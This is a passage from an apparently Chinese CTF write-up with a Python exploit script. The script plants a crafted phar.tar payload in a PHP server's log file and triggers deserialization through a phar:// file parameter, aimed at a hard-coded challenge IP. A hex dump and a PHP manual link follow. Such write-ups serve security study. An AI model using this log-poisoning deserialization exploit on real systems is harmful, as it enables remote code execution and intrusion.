 把这个跑在本地web服务上，然后写个脚本（当时半夜赶制的很丑会留下一些垃圾文件 求轻喷 队里师傅写的干净多了）：

```python
import requests as rq
import json 
import time
import random
ip = '<here_is_remote_ip>'
def generate_random_str(randomlength=16):
  """
  生成一个指定长度的随机字符串
  """
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str
def new_one(offset):
    rd = generate_random_str(4)
    ts2 = time.strftime('%Y-%m-%d %H:%M:%S',time.localtime(time.time()+offset))
    ts = time.strftime('%Y-%m-%d %H:%M:%S',time.localtime(time.time()))
    res = rq.get(url=f"http://127.0.0.1/test.php?sb={rd}&ts={ts2}")  # 访问本地生成phar
    with open(f'{rd}.phar.tar',"rb") as f: 
        data = f.read()
    data = data[70::]#去掉前面的冗余部分以便和log前面拼接形成合法*.phar.tar
    headers = {'content-type': 'application/x-www-form'}  # 源文本
    res = rq.post(url=f"http://43.155.59.185:53340/log.php?log_type={rd}",data=data)  # 写入日志
    res = rq.post(url=f"http://43.155.59.185:53340?file=phar://./log/{ip}/{rd}_www.log")  # 反序列化
    print(res.text)
for i in range(-30,30):#考虑本地和远程的时间差异，这边设置个30s的窗口期
    new_one(i)
    time.sleep(0.9)
"""生成的文件长这样（看个开头就行）
00000000: 5469 6d65 3a20 3230 3231 2d31 312d 3232  Time: 2021-11-22
00000010: 2030 363a 3533 3a31 3520 4950 3a20 5b5d   06:53:15 IP: []
00000020: 2c20 5245 5155 4553 543a 205b 5d2c 2043  , REQUEST: [], C
00000030: 4f4e 5445 4e54 3a20 5b5f 5f5f 5f5f 5f5f  ONTENT: [_______
00000040: 5f5f 5f5f 5f5f 5f5f 5f5f 5f5f 5f5f 5f5f  ________________
00000050: 5f5f 5f5f 5f5f 5f5f 5f5f 5f5f 5f5f 5f5f  ________________
00000060: 5f5f 5f5f 3030 3030 3634 3400 0000 0000  ____0000644.....
00000070: 0000 0000 0000 0000 0000 0000 3030 3030  ............0000
00000080: 3030 3030 3032 3400 3134 3134 3636 3337  0000024.14146637
00000090: 3133 3300 3030 3233 3534 3320 3000 0000  133.0023543 0...
000000a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
"""
```

不只是tar，还有别的格式：

![](targz.png)
[https://www.php.net/manual/zh/phar.converttoexecutable.php](https://www.php.net/manual/zh/phar.converttoexecutable.php)
